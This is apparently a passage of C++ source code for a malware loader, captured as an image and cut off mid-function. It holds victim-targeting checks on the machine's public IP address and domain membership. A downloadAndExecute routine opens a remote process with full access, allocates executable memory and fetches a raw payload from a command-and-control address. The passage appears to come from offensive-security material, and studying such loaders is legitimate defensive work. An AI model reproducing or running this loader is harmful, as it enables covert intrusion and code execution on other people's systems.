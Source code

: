 ```cpp
    }
    else {
        return FALSE;
    }
}

BOOL checkIP()
{
    const char* websiteURL = "https://ifconfig.me/ip";
    IStream* stream;
    string s;
    char buff[35];
    unsigned long bytesRead;
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 35, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    if (s == "VICTIM_IP") {
        return TRUE;
    }
    else {
        return FALSE;
    }
}

BOOL isDomainController() {
    LPCWSTR dcName;
    string dcNameComp;
    NetGetDCName(NULL, NULL, (LPBYTE*)&dcName);
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
    cout << dcNewName;
    if (dcNewName.find("\\\\")) {
        return FALSE;
    } else {
        return TRUE;
    }
}

int downloadAndExecute()
{
    HANDLE hProcess;
    SIZE_T dwSize = 510;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 414);
    const char* c2URL = "http://10.10.10.10/index.raw";
    IStream* stream;
    char buff[510];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 510, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
```